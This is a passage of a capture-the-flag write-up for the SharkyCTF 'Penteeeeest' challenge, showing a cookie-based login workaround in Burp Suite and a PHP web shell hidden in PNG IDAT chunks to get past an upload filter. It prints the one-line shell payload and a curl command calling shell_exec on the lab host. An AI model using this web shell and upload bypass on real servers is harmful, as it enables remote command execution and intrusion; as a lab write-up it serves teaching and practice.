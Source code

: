 ```yaml
---
layout: post
title: "SharkyCTF: Penteeeeest Writeup"
date: 2020-05-15 11:30
tags: [registry, hackthebox, docker, bolt, restic]
---
```

Now that we have the credneitals, we can try logging in to the admin panel and accessing the upload page. Unfortunately, the login functionality doesn't quite work as is (no cookies are set), and thus the upload page doesn't register us as logged in.

![brokenlogin](/assets/img/penteeeeest/loginbroke.png)

 Having a look at the [source code][brokenlogin], we can see that the website is looking for a **"username"** and **"password"** cookie.

 ```php
 if (isset($_COOKIE['username']) && isset($_COOKIE['password']) && $_COOKIE['username'] == 'Michael' && $_COOKIE['password'] === str_replace(array("\n", "\r", " "), '', file_get_contents('creds.txt')))
 ```
 
 We can use Burp Suite to automatically add these cookies to every request for us, by adding a session handling rule under the "Project Options" tab as follows:

 ![burpsession](/assets/img/penteeeeest/burpcookie.png)

 It's important to add the "Proxy" tab into the scope, so that Burp can apply this rule to every request that goes to 172.30.0.2.

 ![burpscope](/assets/img/penteeeeest/burpscope.png)

 Revisiting upload.php, we now see the page as intended.

 ![workingupload](../assets/img/penteeeeest/workingupload.png)

 Now comes what I found to be the best part of this box, the file upload. Once again, we look at the [source for png_upload.php][pngupload], and we see the following precautions put in place around file uploads.

 ```php
 if ($file_extension !== "png") {
    $response = array(
        "type" => "error",
        "message" => "Upload valid images. Only PNG and JPEG are allowed."
    );
}
else if (($_FILES["upload"]["size"] > 2000000)) {
    $response = array(
        "type" => "error",
        "message" => "Image size exceeds 2MB"
    );
}
else if ($check['mime'] !== "image/png")
{
$response = array(
    "type" => "error",
    "message" => "Invalid mimetype"
);
}
else {
    $target = imagecreatetruecolor($size['width'], $size['height']);

    imagecopyresampled($target, imagecreatefromstring(file_get_contents($_FILES["upload"]["tmp_name"])), 0, 0, 0, 0, $size['width'], $size['height'], $check[0], $check[1]);

    if (imagepng($target, $dir.basename($_FILES["upload"]["name"]))) {
        $response = array(
            "type" => "success",
            "message" => "Image uploaded successfully."
        );
    } else {
        $response = array(
            "type" => "error",
            "message" => "Problem in uploading image files."
        );
    }
}
```

Namely,

1. The file has to have a **".png"** extension
2. The file has to be <= 2MB
3. The has to have a **"image/png"** mimetype
4. The image gets processed through **"imagecopyresampled"** and **"imagecreatefromstring"** before being written to disk

Now, if it weren't for the 4th rule, this would be a piece of cake. Simply grab a PNG, concatenate a PHP webshell onto the end of the file and rename it to end with **".php.png"** to have the PHP code within it processed by the web server (Apache/NGINX). Unfortunately, that's not the case, and we need to find a way to bypass these transformations of our file. This is where [Encoding Web Shells in PNG IDAT chunks][idontplaydarts] comes to the rescue. This is a seriously cool exploit accompanied by a well written blog post, as well as an [example PNG file][examplepng]. The TL;DR of the exploit is, we encode 
```<?=$_GET[0]($_POST[1]);?>``` into the PNG file in such a way so that it remains in the file after the image transformations (in this case, resizing to 32x32). So now we can upload our web shell.

![workingupload](/assets/img/penteeeeest/b4upload.png)
![uploadsuccess](/assets/img/penteeeeest/uploadsuccess.png)

## Accessing the web shell
So we managed to upload a web shell, but now we need a way to access it. We can GET/POST to it with the necessary parameters and data, but since it's just an image, the web server won't process the PHP inside the image. 

```
kali@kali:~/sharky/penteeeeest$ curl 172.30.0.2/blog/uploads/shell.php.png?0=shell_exec --data "1=ls" --output - && echo
�PNG
▒
IHDR �▒��       pHYs���+IDATH�c\<?=$_GET[0]($_POST[1]);?>X����s^7�����~_�}�'���ɿ_�|�00cٹg��=2��Q0
F�(▒�`��Q0
��
IEND�B`�
```

There are 2 ways around this:
1. Trick the web server into responding with a different ```Content-Type``` HTTP header
2. Include the image into a web page that has the correct ```Content-Type``` HTTP header

Remember that LFI I mentioned earlier?

 [brokenlogin]: https://github.com/Michael-SharkyMaster/website/blob/5f46d8bc779c4c4f1ed9d5ecde71c330d81c970b/admin/upload.php#L61
 [pngupload]: https://github.com/Michael-SharkyMaster/website/blob/master/admin/png_upload.php#L21-L56
 [idontplaydarts]: https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
 [examplepng]: https://www.idontplaydarts.com/images/phppng.png